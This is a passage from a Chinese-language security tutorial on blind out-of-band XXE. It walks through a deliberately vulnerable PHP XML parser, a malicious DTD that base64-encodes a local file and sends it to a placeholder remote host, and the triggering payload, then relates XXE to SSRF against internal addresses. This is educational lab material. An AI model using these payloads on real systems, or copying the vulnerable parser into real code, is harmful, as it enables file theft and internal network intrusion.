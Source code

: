 想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)

### **实验二：无回显读取本地敏感文件(Blind OOB XXE)**

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:9999?p=%file;'>">
```

**2019.5.8 更新**

我发现上面这段代码由于解析的问题将 send 前面的 HTML 实体转化成了 % ,虽然我在下面做出了一些解释，但是因为存在复制粘贴代码的行为，因此我决定还是在这里用图片的形式再次展示一下我的代码

[![image-20231218150540155](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150540155.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190508205142-077ed10c-7190-1.png)

**payload：**

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

![image-20231218150558664](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150558664.png)

**结果如下：**

![image-20231218150620538](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218150620538.png)

我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

### **新的思考：**

我们刚刚都只是做了一件事，那就是通过 file 协议读取本地文件，或者是通过 http 协议发出请求，熟悉 SSRF 的童鞋应该很快反应过来，这其实非常类似于 SSRF ，因为他们都能从服务器向另一台服务器发起请求，那么我们如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）是不是也能实现 SSRF 同样的效果呢？没错，XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。
